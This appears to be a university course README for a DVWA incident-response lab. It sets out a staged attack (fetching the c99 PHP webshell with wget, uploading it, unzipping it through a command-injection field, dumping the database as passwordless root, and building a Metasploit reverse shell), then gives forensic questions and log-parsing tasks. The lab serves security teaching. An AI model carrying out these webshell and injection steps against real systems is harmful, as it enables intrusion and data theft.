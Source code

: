 # Week 1 - Dam Vulnerable Web App(DVWA)
This week we are using DVWA for our incident response demo. DVWA provides a broken webapp that is ready to be hacked out of the box. Docker was platform of choice because if a container becomes corrupted just restart it :).

## Setup demo
### AWS security group
0. Restrict AWS security group to RIT IP address range

### Setup DVWA on AWS Ubuntu 16.04
0. vim hosts and add IP addr of host under "[dvwa]"
0. ansible-playbook -i hosts deploy_dvwa.yml

### Access Docker container
0. ssh to host
0. docker exec -it dvwa_demo bash

## Perform attack
### Nikto scanner
0. nikto -host http://dvwa.hackinglab.beer

### Zip, upload and unzip c99.php
0. Start Kali Linux VM
0. wget https://raw.githubusercontent.com/tennc/webshell/master/php/PHPshell/c99/c99.php
0. gzip -f c99.php
0. Browse http://dvwa.hackinglab.beer with CHROME and login
    1. User: admin
    1. Pass: password
0. Select "Upload" on the left
0. Select "Choose file", "c99.php.gz" then "Upload"
0. Select "Command injection" on the right
0. Enter "/bin/gunzip -v ../../hackable/uploads/c99.php" into "Enter ip address"
0. Browse to http://dvwa.hackinglab.beer/hackable/uploads/c99.php

### Dump database
0. mysql -u root -e "show databases;"
    1. There is no root password
0. mysql -u root -e "use dvwa; show tables"
0. mysqldump -u root --database dvwa

## Incident reponse demo
### Understanding the machine
It is important to understand the machine you are investigating

0. What is the operating system of the attacker machine?
0. What is the kernel of the attacked machine?
0. What timezone  of the attacked machine?
0. What is the ip address of the attacked machine?
0. What is the MAC address of the attacked machine?
0. What is the hostname of the attacked machine?
0. What services are listening on the box and what ports?(hint netstat)?
0. What are the versions of the services?
0. Do the services have any known vulnerabilities?
0. What users are on the attacked machine?

### Become the cyber detective
0. Where are the web servers logs located?
0. What is the diff between the error.log and access.log
0. What are the user permissions of the log files?
0. What is the timezone and time format of the webservers logs
0. What is the attacker's IP address
0. What is the attackers user-agent?
0. What webshell did the attacker use?
0. Where was that webshell uploaded to?
0. What commands/actions did the attacker use?
0. Lookup three mitigations for next week

### Scripting challenges
0. Create a Github account and repo called “DFIRtooklit”
    1. Choose your own repo name
    1. Repo can be private or public -- your choice - mine is private
    1. If you don’t create a repo you receive no points for everything else
0. Create a script in your language of choice to do everything in the “understanding the machine” and then add three of your own.
    1. Create a script(s) that will parse webserver logs for:
    1. Unique list(no duplicates) of user ip addresses
    1. Unique list(no duplicates) of URIs 
    1. Unique list(no duplicates) of CMDs run by c99
    1. Unique list(no duplicates) of CMD responses by c99
    1. OUTPUT MUST BE PRETTY


### Red team challenge
Create a PHP reverse shell with Metasploit
* attack: http://dvwa.hackinglab.beer:8080
* DO NOT ATTACK port 80

### Restart Docker container if corrupted
0. docker restart dvwa_pwn

# Resources/Sources
* https://www.computersecuritystudent.com/SECURITY_TOOLS/DVWA/DVWAv107/lesson14/index.html